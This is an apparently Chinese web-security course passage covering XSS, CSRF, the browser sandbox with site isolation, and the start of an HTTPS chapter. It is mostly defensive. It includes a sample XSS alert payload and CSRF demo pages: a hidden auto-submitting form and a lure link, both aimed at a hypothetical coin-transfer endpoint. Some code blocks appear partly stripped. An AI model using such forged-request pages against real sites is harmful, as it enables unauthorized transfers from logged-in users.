**恶意脚本是怎么注入的**

通常情况下，主要有存储型 XSS 攻击、反射型 XSS 攻击和基于 DOM 的 XSS 攻击三种方式来注入恶意脚本。

1. 存储型 XSS 攻击

我们先来看看存储型 XSS 攻击是怎么向 HTML 文件中注入恶意脚本的，你可以参考下图：

<br/>

<br/>

通过上图，我们可以看出存储型 XSS 攻击大致需要经过如下步骤：

- 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；
- 然后用户向网站请求包含了恶意 JavaScript 脚本的页面；
- 当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。

2. 反射型 XSS 攻击

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户。

当恶意 JavaScript 脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作。

另外需要注意的是，Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

3. 基于 DOM 的 XSS 攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。

具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

**如何阻止 XSS 攻击**

我们知道存储型 XSS 攻击和反射型 XSS 攻击都是需要经过 Web 服务器来处理的，因此可以认为这两种类型的漏洞是服务端的安全漏洞。

而基于 DOM 的 XSS 攻击全部都是在浏览器端完成的，因此基于 DOM 的 XSS 攻击是属于前端的安全漏洞。

但无论是何种类型的 XSS 攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上。

所以要阻止 XSS 攻击，我们可以通过阻止恶意 JavaScript 脚本的注入和恶意消息的发送来实现。

接下来我们就来看看一些常用的阻止 XSS 攻击的策略。

1. 服务器对输入脚本进行过滤或转码

不管是反射型还是存储型 XSS 攻击，我们都可以在服务器端将一些关键的字符进行转码，比如最典型的：

```
code:<script>alert('你被 xss 攻击了')</script>
```

这段代码过滤后，只留下了：

```
code:
```

这样，当用户再次请求该页面时，由于`<script>`标签的内容都被过滤了，所以这段脚本在客户端是不可能被执行的。

除了过滤之外，服务器还可以对这些内容进行转码，还是上面那段代码，经过转码之后，效果如下所示：

```
code:&lt;script&gt;alert(&#39; 你被 xss 攻击了 &#39;)&lt;/script&gt;
```

经过转码之后的内容，如`<script>`标签被转换为`&lt;script&gt;`，因此即使这段脚本返回给页面，页面也不会执行这段脚本。

2. 充分利用 CSP

虽然在服务器端执行过滤或者转码可以阻止 XSS 攻击的发生，但完全依靠服务器端依然是不够的，我们还需要把 CSP 等策略充分地利用起来，以降低 XSS 攻击带来的风险和后果。

实施严格的 CSP 可以有效地防范 XSS 攻击，具体来讲 CSP 有如下几个功能：

- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；
- 禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。

因此，利用好 CSP 能够有效降低 XSS 攻击的概率。

3. 使用 HttpOnly 属性

由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护我们 Cookie 的安全。

通常服务器可以将某些 Cookie 设置为 HttpOnly 标志，HttpOnly 是服务器通过 HTTP 响应头来设置的，下面是打开 Google 时，HTTP 响应头中的一段：

```
set-cookie: NID=189=M8q2FtWbsR8RlcldPVt7qkrqR38LmFY9jUxkKo3-4Bi6Qu_ocNOat7nkYZUTzolHjFnwBw0izgsATSI7TZyiiiaV94qGh-BzEYsNVa7TZmjAYTxYTOM9L_-0CN9ipL6cXi8l6-z41asXtm2uEwcOC5oh9djkffOMhWqQrlnCtOI; expires=Sat, 18-Apr-2020 06:52:22 GMT; path=/; domain=.google.com; HttpOnly
```

我们可以看到，set-cookie 属性值最后使用了 HttpOnly 来标记该 Cookie。顾名思义，使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。我们还可以通过 Chrome 开发者工具来查看哪些 Cookie 被标记了 HttpOnly

由于 JavaScript 无法读取设置了 HttpOnly 的 Cookie 数据，所以即使页面被注入了恶意 JavaScript 脚本，也是无法获取到设置了 HttpOnly 的数据。因此一些比较重要的数据我们建议设置 HttpOnly 标志。


<br/>

## 34丨CSRF攻击：陌生链接不要随便点

XSS 的攻击方式是黑客往用户的页面中注入恶意脚本，然后再通过恶意脚本将用户页面的数据上传到黑客的服务器上，最后黑客再利用这些数据进行一些恶意操作。XSS 攻击能够带来很大的破坏性，不过另外一种类型的攻击也不容忽视，它就是我们今天要聊的 CSRF 攻击。

相信你经常能听到的一句话：“别点那个链接，小心有病毒！”点击一个链接怎么就能染上病毒了呢？

我们结合一个真实的关于 CSRF 攻击的典型案例来分析下，在 2007 年的某一天，David 无意间打开了 Gmail 邮箱中的一份邮件，并点击了该邮件中的一个链接。过了几天，David 就发现他的域名被盗了。不过几经周折，David 还是要回了他的域名，也弄清楚了他的域名之所以被盗，就是因为无意间点击的那个链接。

那 David 的域名是怎么被盗的呢？

我们结合下图来分析下 David 域名的被盗流程：

<br/>

<br/>

首先 David 发起登录 Gmail 邮箱请求，然后 Gmail 服务器返回一些登录状态给 David 的浏览器，这些信息包括了 Cookie、Session 等，这样在 David 的浏览器中，Gmail 邮箱就处于登录状态了。

接着黑客通过各种手段引诱 David 去打开他的链接，比如 hacker.com，然后在 hacker.com 页面中，黑客编写好了一个邮件过滤器，并通过 Gmail 提供的 HTTP 设置接口设置好了新的邮件过滤功能，该过滤器会将 David 所有的邮件都转发到黑客的邮箱中。

最后的事情就很简单了，因为有了 David 的邮件内容，所以黑客就可以去域名服务商那边重置 David 域名账户的密码，重置好密码之后，就可以将其转出到黑客的账户了。


**什么是 CSRF 攻击**

CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。

下面我们以极客时间官网为例子，来分析这三种攻击方式都是怎么实施的。这里假设极客时间具有转账功能，可以通过 POST 或 Get 来实现转账，转账接口如下所示：

```
# 同时支持 POST 和 Get
# 接口
https://time.geekbang.org/sendcoin
# 参数
<br/>

## 目标用户
user
<br/>

## 目标金额
number
```

有了上面的转账接口，我们就可以来模拟 CSRF 攻击了。

1. 自动发起 Get 请求

黑客最容易实施的攻击方式是自动发起 Get 请求，具体攻击方式你可以参考下面这段代码：

```html
<!DOCTYPE html>
<html>
  <body>
    <h1> 黑客的站点：CSRF 攻击演示 </h1>
    
  </body>
</html>
```

这是黑客页面的 HTML 代码，在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 极客币就被转移到黑客的账户上去了。

2. 自动发起 POST 请求

除了自动发送 Get 请求之外，有些服务器的接口是使用 POST 方法的，所以黑客还需要在他的站点上伪造 POST 请求，当用户打开黑客的站点时，是自动提交 POST 请求，具体的方式你可以参考下面示例代码：

```html
<!DOCTYPE html>
<html>
<body>
  <h1> 黑客的站点：CSRF 攻击演示 </h1>
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```

在这段代码中，我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

3. 引诱用户点击链接

除了自动发起 Get 和 Post 请求之外，还有一种方式是诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。黑客会采用很多方式去诱惑用户点击链接，示例代码如下所示：

```html
<div>
   </img> </div> <div>
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```

这段黑客站点代码，页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的极客币就被转到黑客账户上了。

以上三种就是黑客经常采用的攻击方式。如果当用户登录了极客时间，以上三种 CSRF 攻击方式中的任何一种发生时，那么服务器都会将一定金额的极客币发送到黑客账户。

到这里，相信你已经知道什么是 CSRF 攻击了。和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。

**如何防止 CSRF 攻击**

了解了 CSRF 攻击的一些手段之后，我们再来看看 CSRF 攻击的一些“特征”，然后根据这些“特征”分析下如何防止 CSRF 攻击。下面是我总结的发起 CSRF 攻击的三个必要条件：

- 第一个，目标站点一定要有 CSRF 漏洞；
- 第二个，用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态；
- 第三个，需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛。

满足以上三个条件之后，黑客就可以对用户进行 CSRF 攻击了。这里还需要额外注意一点，与 XSS 攻击不同，CSRF 攻击不会往页面注入恶意脚本，因此黑客是无法通过 CSRF 攻击来获取用户页面数据的；其最关键的一点是要能找到服务器的漏洞，所以说对于 CSRF 攻击我们主要的防护手段是提升服务器的安全性。

要让服务器避免遭受到 CSRF 攻击，通常有以下几种途径。

1. 充分利用好 Cookie 的 SameSite 属性

通过上面的介绍，相信你已经知道了黑客会利用用户的登录状态来发起 CSRF 攻击，而Cookie 正是浏览器和服务器之间维护登录状态的一个关键数据，因此要阻止 CSRF 攻击，我们首先就要考虑在 Cookie 上来做文章。

通常 CSRF 攻击都是从第三方站点发起的，要防止 CSRF 攻击，我们最好能实现从第三方站点发送请求时禁止 Cookie 的发送，因此在浏览器通过不同来源发送 HTTP 请求时，有如下区别：

- 如果是从第三方站点发起的请求，那么需要浏览器禁止发送某些关键 Cookie 数据到服务器；
- 如果是同一个站点发起的请求，那么就需要保证 Cookie 数据正常发送。

而我们要聊的 Cookie 中的 SameSite 属性正是为了解决这个问题的，通过使用 SameSite 可以有效地降低 CSRF 攻击的风险。

那 SameSite 是怎么防止 CSRF 攻击的呢？

在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项，如下：

```
set-cookie: 1P_JAR=2019-10-20-06; expires=Tue, 19-Nov-2019 06:36:21 GMT; path=/; domain=.google.com; SameSite=none
```

SameSite 选项通常有 Strict、Lax 和 None 三个值。

Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。简言之，如果你从极客时间的页面中访问 InfoQ 的资源，而 InfoQ 的某些 Cookie 设置了 SameSite = Strict 的话，那么这些 Cookie 是不会被发送到 InfoQ 的服务器上的。只有你从 InfoQ 的站点去请求 InfoQ 的资源时，才会带上这些 Cookie。

Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。

而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。

关于 SameSite 的具体使用方式，你可以参考这个链接：https://web.dev/samesite-cookies-explained 。

对于防范 CSRF 攻击，我们可以针对实际情况将一些关键的 Cookie 设置为 Strict 或者 Lax 模式，这样在跨站点请求时，这些关键的 Cookie 就不会被发送到服务器，从而使得黑客的 CSRF 攻击失效。

2. 验证请求的来源站点

接着我们再来了解另外一种防止 CSRF 攻击的策略，那就是**在服务器端验证请求来源的站点**。

由于 CSRF 攻击大多来自于第三方站点，因此服务器可以禁止来自第三方站点的请求。那么该怎么判断请求是否来自第三方站点呢？

这就需要介绍 HTTP 请求头中的 Referer 和 Origin 属性了。

Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址。比如我从极客时间的官网打开了 InfoQ 的站点，那么请求头中的 Referer 值是极客时间的 URL，如下图：

<br/>

<br/>

虽然可以通过 Referer 告诉服务器 HTTP 请求的来源，但是有一些场景是不适合将来源 URL 暴露给服务器的，因此浏览器提供给开发者一个选项，可以不用上传 Referer 值，具体可参考Referrer Policy。

但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了Origin 属性，在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性，如下图：

<br/>

<br/>

从上图可以看出，Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的一个主要区别。在这里需要补充一点，Origin 的值之所以不包含详细路径信息，是有些站点因为安全考虑，不想把源站点的详细路径暴露给服务器。

因此，服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。

3. CSRF Token

除了使用以上两种方式来防止 CSRF 攻击之外，还可以采用 CSRF Token 来验证，这个流程比较好理解，大致分为两步。

第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。你可以参考下面示例代码：

```html
<!DOCTYPE html>
<html>
<body>
    <form action="https://time.geekbang.org/sendcoin" method="POST">
      <input type="hidden" name="csrf-token" value="nc98P987bcpncYhoadjoiydc9ajDlcn">
      <input type="text" name="user">
      <input type="text" name="number">
      <input type="submit">
    </form>
</body>
</html>
```

第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。

**总结**

要发起 CSRF 攻击需要具备三个条件：目标站点存在漏洞、用户要登录过目标站点和黑客需要通过第三方站点发起攻击。

根据这三个必要条件，我们又介绍了该如何防止 CSRF 攻击，具体来讲主要有三种方式：

- 充分利用好 Cookie 的 SameSite 属性
- 验证请求的来源站点
- 使用 CSRF Token

这三种方式需要合理搭配使用，这样才可以有效地防止 CSRF 攻击。

再结合前面两篇文章，我们可以得出页面安全问题的主要原因就是浏览器为同源策略开的两个“后门”：一个是在页面中可以任意引用第三方资源，另外一个是通过 CORS 策略让 XMLHttpRequest 和 Fetch 去跨域请求资源。

为了解决这些问题，我们引入了 CSP 来限制页面任意引入外部资源，引入了 HttpOnly 机制来禁止 XMLHttpRequest 或者 Fetch 发送一些关键 Cookie，引入了 SameSite 和 Origin 来防止 CSRF 攻击。

通过这三篇文章的分析，相信你应该已经能搭建Web 页面安全的知识体系网络了。有了这张网络，你就可以将 HTTP 请求头和响应头中各种安全相关的字段关联起来，比如 Cookie 中的一些字段，还有 X-Frame-Options、X-Content-Type-Options、X-XSS-Protection 等字段，也可以将 CSP、CORS 这些知识点关联起来。当然这些并不是浏览器安全的全部，后面两篇文章我们还会介绍浏览器系统安全和浏览器网络安全两大块的内容，这对于你学习浏览器安全来说也是至关重要的。

<br/>

## 35丨安全沙箱：页面和系统之间的隔离墙

前面三篇文章我们主要围绕同源策略介绍了 Web 页面安全的相关内容，那今天我们把视野向外延伸，来聊聊页面安全和操作系统安全之间的关系。

在《01 | Chrome 架构：仅仅打开了 1 个页面，为什么有 4 个进程？》那篇文章中，我们分析了浏览器架构的发展史，在最开始的阶段，浏览器是单进程的，这意味着渲染过程、JavaScript 执行过程、网络加载过程、UI 绘制过程和页面显示过程等都是在同一个进程中执行的，这种结构虽然简单，但是也带来了很多问题。

从稳定性视角来看，单进程架构的浏览器是不稳定的，因为只要浏览器进程中的任意一个功能出现异常都有可能影响到整个浏览器，如页面卡死、浏览器崩溃等。不过浏览器的稳定性并不是本文讨论的重点，我们今天主要聊的是浏览器架构是如何影响到操作系统安全的。

浏览器本身的漏洞是单进程浏览器的一个主要问题，如果浏览器被曝出存在漏洞，那么在这些漏洞没有被及时修复的情况下，黑客就有可能通过恶意的页面向浏览器中注入恶意程序，其中最常见的攻击方式是利用缓冲区溢出，不过需要注意这种类型的攻击和 XSS 注入的脚本是不一样的。

XSS 攻击只是将恶意的 JavaScript 脚本注入到页面中，虽然能窃取一些 Cookie 相关的数据，但是 XSS 无法对操作系统进行攻击。

而通过浏览器漏洞进行的攻击是可以入侵到浏览器进程内部的，可以读取和修改浏览器进程内部的任意内容，还可以穿透浏览器，在用户的操作系统上悄悄地安装恶意软件、监听用户键盘输入信息以及读取用户硬盘上的文件内容。

和 XSS 攻击页面相比，这类攻击无疑是枚“核弹”，它会将整个操作系统的内容都暴露给黑客，这样我们操作系统上所有的资料都是不安全的了。

**安全视角下的多进程架构**

现代浏览器的设计目标是安全、快速和稳定，而这种核弹级杀伤力的安全问题就是一个很大的潜在威胁，因此在设计现代浏览器的体系架构时，需要解决这个问题。

我们知道现代浏览器采用了多进程架构，将渲染进程和浏览器主进程做了分离，完整的进程架构我们已经在《01 | Chrome 架构：仅仅打开了 1 个页面，为什么有 4 个进程？》那篇文章中介绍过了，这里我就不重复介绍了。下面我们重点从操作系统安全的视角来看看浏览器的多进程架构，如下图：

<br/>

<br/>

观察上图，我们知道浏览器被划分为**浏览器内核和渲染内核**两个核心模块，其中浏览器内核是由网络进程、浏览器主进程和 GPU 进程组成的，渲染内核就是渲染进程。

那如果我们在浏览器中打开一个页面，这两个模块是怎么配合的呢？

所有的网络资源都是通过浏览器内核来下载的，下载后的资源会通过 IPC 将其提交给渲染进程（浏览器内核和渲染进程之间都是通过 IPC 来通信的）。然后渲染进程会对这些资源进行解析、绘制等操作，最终生成一幅图片。但是渲染进程并不负责将图片显示到界面上，而是将最终生成的图片提交给浏览器内核模块，由浏览器内核模块负责显示这张图片。

在《01 | Chrome 架构：仅仅打开了 1 个页面，为什么有 4 个进程？》中我们分析过，设计现代浏览器体系架构时，将浏览器划分为不同的进程是为了增加其稳定性。虽然设计成了多进程架构，不过这些模块之间的沟通方式却有些复杂，也许你还有以下问题：

- 为什么一定要通过浏览器内核去请求资源，再将数据转发给渲染进程，而不直接从进程内部去请求网络资源？
- 为什么渲染进程只负责生成页面图片，生成图片还要经过 IPC 通知浏览器内核模块，然后让浏览器内核去负责展示图片？

通过以上方式不是增加了工程的复杂度吗？

要解释现代浏览器为什么要把这个流程弄得这么复杂，我们就得从系统安全的角度来分析。

**安全沙箱**

不过在解释这些问题之前，我们得先看看什么是安全沙箱。

上面我们分析过了，由于渲染进程需要执行 DOM 解析、CSS 解析、网络图片解码等操作，如果渲染进程中存在系统级别的漏洞，那么以上操作就有可能让恶意的站点获取到渲染进程的控制权限，进而又获取操作系统的控制权限，这对于用户来说是非常危险的。

因为网络资源的内容存在着各种可能性，所以浏览器会默认所有的网络资源都是不可信的，都是不安全的。但谁也不能保证浏览器不存在漏洞，只要出现漏洞，黑客就可以通过网络内容对用户发起攻击。

我们知道，如果你下载了一个恶意程序，但是没有执行它，那么恶意程序是不会生效的。

同理，浏览器之于网络内容也是如此，浏览器可以安全地下载各种网络资源，但是如果要执行这些网络资源，比如解析 HTML、解析 CSS、执行 JavaScript、图片编解码等操作，就需要非常谨慎了，因为一不小心，黑客就会利用这些操作对含有漏洞的浏览器发起攻击。

基于以上原因，我们需要在渲染进程和操作系统之间建一道墙，即便渲染进程由于存在漏洞被黑客攻击，但由于这道墙，黑客就获取不到渲染进程之外的任何操作权限。将渲染进程和操作系统隔离的这道墙就是我们要聊的安全沙箱。

浏览器中的安全沙箱是利用操作系统提供的安全技术，让渲染进程在执行过程中无法访问或者修改操作系统中的数据，在渲染进程需要访问系统资源的时候，需要通过浏览器内核来实现，然后将访问的结果通过 IPC 转发给渲染进程。

安全沙箱最小的保护单位是进程。因为单进程浏览器需要频繁访问或者修改操作系统的数据，所以单进程浏览器是无法被安全沙箱保护的，而现代浏览器采用的多进程架构使得安全沙箱可以发挥作用。

**安全沙箱如何影响各个模块功能**

我们知道安全沙箱最小的保护单位是进程，并且能限制进程对操作系统资源的访问和修改，这就意味着如果要让安全沙箱应用在某个进程上，那么这个进程必须没有读写操作系统的功能，比如读写本地文件、发起网络请求、调用 GPU 接口等。

了解了被安全沙箱保护的进程会有一系列的受限操作之后，接下来我们就可以分析渲染进程和浏览器内核各自都有哪些职责，如下图：

<br/>

<br/>

通过该图，我们可以看到由于渲染进程需要安全沙箱的保护，因此需要把在渲染进程内部涉及到和系统交互的功能都转移到浏览器内核中去实现。

那安全沙箱是如何影响到各个模块功能的呢？

1. 持久存储

我们先来看看安全沙箱是如何影响到浏览器持久存储的。

由于安全沙箱需要负责确保渲染进程无法直接访问用户的文件系统，但是在渲染进程内部有访问 Cookie 的需求、有上传文件的需求，为了解决这些文件的访问需求，所以现代浏览器将读写文件的操作全部放在了浏览器内核中实现，然后通过 IPC 将操作结果转发给渲染进程。

具体地讲，如下文件内容的读写都是在浏览器内核中完成的：

- 存储 Cookie 数据的读写。通常浏览器内核会维护一个存放所有 Cookie 的 Cookie 数据库，然后当渲染进程通过 JavaScript 来读取 Cookie 时，渲染进程会通过 IPC 将读取 Cookie 的信息发送给浏览器内核，浏览器内核读取 Cookie 之后再将内容返回给渲染进程。
- 一些缓存文件的读写也是由浏览器内核实现的，比如网络文件缓存的读取。

2. 网络访问

同样有了安全沙箱的保护，在渲染进程内部也是不能直接访问网络的，如果要访问网络，则需要通过浏览器内核。不过浏览器内核在处理 URL 请求之前，会检查渲染进程是否有权限请求该 URL，比如检查 XMLHttpRequest 或者 Fetch 是否是跨站点请求，或者检测 HTTPS 的站点中是否包含了 HTTP 的请求。

3. 用户交互

渲染进程实现了安全沙箱，还影响到了一个非常重要的用户交互功能。

通常情况下，如果你要实现一个 UI 程序，操作系统会提供一个界面给你，该界面允许应用程序与用户交互，允许应用程序在该界面上进行绘制，比如 Windows 提供的是 HWND，Linux 提供的 X Window，我们就把 HWND 和 X Window 统称为窗口句柄。应用程序可以在窗口句柄上进行绘制和接收键盘鼠标消息。

不过在现代浏览器中，由于每个渲染进程都有安全沙箱的保护，所以在渲染进程内部是无法直接操作窗口句柄的，这也是为了限制渲染进程监控到用户的输入事件。

由于渲染进程不能直接访问窗口句柄，所以渲染进程需要完成以下两点大的改变。

第一点，渲染进程需要渲染出位图。为了向用户显示渲染进程渲染出来的位图，渲染进程需要将生成好的位图发送到浏览器内核，然后浏览器内核将位图复制到屏幕上。

第二点，操作系统没有将用户输入事件直接传递给渲染进程，而是将这些事件传递给浏览器内核。然后浏览器内核再根据当前浏览器界面的状态来判断如何调度这些事件，如果当前焦点位于浏览器地址栏中，则输入事件会在浏览器内核内部处理；如果当前焦点在页面的区域内，则浏览器内核会将输入事件转发给渲染进程。

之所以这样设计，就是为了限制渲染进程有监控到用户输入事件的能力，所以所有的键盘鼠标事件都是由浏览器内核来接收的，然后浏览器内核再通过 IPC 将这些事件发送给渲染进程。

上面我们分析了由于渲染进程引入了安全沙箱，所以**浏览器的持久存储、网络访问和用户交互等功能都不能在渲染进程内直接使用了**，因此我们需要把这些功能迁移到浏览器内核中去实现，这让原本比较简单的流程变得复杂了。

理解这些限制，我们就能解释开始提出的两个问题了。

**站点隔离（Site Isolation）**

所谓站点隔离是指 Chrome 将同一站点（包含了相同根域名和相同协议的地址）中相互关联的页面放到同一个渲染进程中执行。

最开始 Chrome 划分渲染进程是以标签页为单位，也就是说整个标签页会被划分给某个渲染进程。但是，按照标签页划分渲染进程存在一些问题，原因就是一个标签页中可能包含了多个 iframe，而这些 iframe 又有可能来自于不同的站点，这就导致了多个不同站点中的内容通过 iframe 同时运行在同一个渲染进程中。

目前所有操作系统都面临着两个 A 级漏洞——幽灵（Spectre）和熔毁（Meltdown），这两个漏洞是由处理器架构导致的，很难修补，黑客通过这两个漏洞可以直接入侵到进程的内部，如果入侵的进程没有安全沙箱的保护，那么黑客还可以发起对操作系统的攻击。

所以如果一个银行站点包含了一个恶意 iframe，然后这个恶意的 iframe 利用这两个 A 级漏洞去入侵渲染进程，那么恶意程序就能读取银行站点渲染进程内的所有内容了，这对于用户来说就存在很大的风险了。

因此 Chrome 几年前就开始重构代码，将标签级的渲染进程重构为 iframe 级的渲染进程，然后严格按照同一站点的策略来分配渲染进程，这就是 Chrome 中的站点隔离。

实现了站点隔离，就可以将恶意的 iframe 隔离在恶意进程内部，使得它无法继续访问其他 iframe 进程的内容，因此也就无法攻击其他站点了。

值得注意是，2019 年 10 月 20 日 Chrome 团队宣布安卓版的 Chrome 已经全面支持站点隔离，你可以参考文中链接。

**总结**

首先我们分析了单进程浏览器在系统安全方面的不足，如果浏览器存在漏洞，那么黑客就有机会通过页面对系统发起攻击。

因此在设计现代浏览器的体系架构时，就考虑到这个问题了。于是，在多进程的基础之上引入了安全沙箱，有了安全沙箱，就可以将操作系统和渲染进程进行隔离，这样即便渲染进程由于漏洞被攻击，也不会影响到操作系统的。

由于渲染进程采用了安全沙箱，所以在渲染进程内部不能与操作系统直接交互，于是就在浏览器内核中实现了持久存储、网络访问和用户交互等一系列与操作系统交互的功能，然后通过 IPC 和渲染进程进行交互。

最后我们还分析了 Chrome 中最新的站点隔离功能。由于最初都是按照标签页来划分渲染进程的，所以如果一个标签页里面有多个不同源的 iframe，那么这些 iframe 也会被分配到同一个渲染进程中，这样就很容易让黑客通过 iframe 来攻击当前渲染进程。而站点隔离会将不同源的 iframe 分配到不同的渲染进程中，这样即使黑客攻击恶意 iframe 的渲染进程，也不会影响到其他渲染进程的。

今天介绍的内容和概念都比较多，看上去离前端比较远，不过这些内容会影响你对浏览器整体架构的理解，而深入理解了浏览器架构能帮助你更加深刻地理解前端内容。为了方便你的理解，我把一些参考资料放到了文章的最后，有需要的话你可以拿来参考。


<br/>

## 36丨HTTPS：让数据传输更安全

浏览器安全主要划分为三大块内容：页面安全、系统安全和网络安全。

前面我们用四篇文章介绍了页面安全和系统安全，也聊了浏览器和 Web 开发者是如何应对各种类型的攻击，本文是我们专栏的最后一篇，我们就接着来聊聊网络安全协议 HTTPS。

我们先从 HTTP 的明文传输的特性讲起，在上一个模块的三篇文章中我们分析过，起初设计 HTTP 协议的目的很单纯，就是为了传输超文本文件，那时候也没有太强的加密传输的数据需求，所以 HTTP 一直保持着明文传输数据的特征。但这样的话，在传输过程中的每一个环节，数据都有可能被窃取或者篡改，这也意味着你和服务器之间还可能有个中间人，你们在通信过程中的一切内容都在中间人的掌握中，如下图：

<br/>

<br/>

从上图可以看出，我们使用 HTTP 传输的内容很容易被中间人窃取、伪造和篡改，通常我们把这种攻击方式称为中间人攻击。

具体来讲，在将 HTTP 数据提交给 TCP 层之后，数据会经过用户电脑、WiFi 路由器、运营商和目标服务器，在这中间的每个环节中，数据都有可能被窃取或篡改。

比如用户电脑被黑客安装了恶意软件，那么恶意软件就能抓取和篡改所发出的 HTTP 请求的内容。或者用户一不小心连接上了 WiFi 钓鱼路由器，那么数据也都能被黑客抓取或篡改。

**在 HTTP 协议栈中引入安全层**

鉴于 HTTP 的明文传输使得传输过程毫无安全性可言，且制约了网上购物、在线转账等一系列场景应用，于是倒逼着我们要引入加密方案。

从 HTTP 协议栈层面来看，我们可以在 TCP 和 HTTP 之间插入一个安全层，所有经过安全层的数据都会被加密或者解密，你可以参考下图：

<br/>

<br/>

**HTTP VS HTTPS**

从图中我们可以看出 HTTPS 并非是一个新的协议，通常 HTTP 直接和 TCP 通信，HTTPS 则先和安全层通信，然后安全层再和 TCP 层通信。也就是说 HTTPS 所有的安全核心都在安全层，它不会影响到上面的 HTTP 协议，也不会影响到下面的 TCP/IP，因此要搞清楚 HTTPS 是如何工作的，就要弄清楚安全层是怎么工作的。

总的来说，安全层有两个主要的职责：**对发起 HTTP 请求的数据进行加密操作和对接收到 HTTP 的内容进行解密操作**。

我们知道了安全层最重要的就是加解密，那么接下来我们就利用这个安全层，一步一步实现一个从简单到复杂的 HTTPS 协议。

**第一版：使用对称加密**

提到加密，最简单的方式是使用对称加密。所谓对称加密是指加密和解密都使用的是相同的密钥。

了解了对称加密，下面我们就使用对称加密来实现第一版的 HTTPS。

要在两台电脑上加解密同一个文件，我们至少需要知道加解密方式和密钥，因此，在 HTTPS 发送数据之前，浏览器和服务器之间需要协商加密方式和密钥，过程如下所示：

<br/>

<br/>

通过上图我们可以看出，HTTPS 首先要协商加解密方式，这个过程就是 HTTPS 建立安全连接的过程。为了让加密的密钥更加难以破解，我们让服务器和客户端同时决定密钥，具体过程如下：

- 浏览器发送它所支持的加密套件列表和一个随机数 client-random，这里的加密套件是指加密的方法，加密套件列表就是指浏览器能支持多少种加密方法列表。
- 服务器会从加密套件列表中选取一个加密套件，然后还会生成一个随机数 service-random，并将 service-random 和加密套件列表返回给浏览器。
- 最后浏览器和服务器分别返回确认消息。

这样浏览器端和服务器端都有相同的 client-random 和 service-random 了，然后它们再使用相同的方法将 client-random 和 service-random 混合起来生成一个密钥 master secret，有了密钥 master secret 和加密套件之后，双方就可以进行数据的加密传输了。

通过将对称加密应用在安全层上，我们实现了第一个版本的 HTTPS，虽然这个版本能够很好地工作，但是其中传输 client-random 和 service-random 的过程却是明文的，这意味着黑客也可以拿到协商的加密套件和双方的随机数，由于利用随机数合成密钥的算法是公开的，所以黑客拿到随机数之后，也可以合成密钥，这样数据依然可以被破解，那么黑客也就可以使用密钥来伪造或篡改数据了。

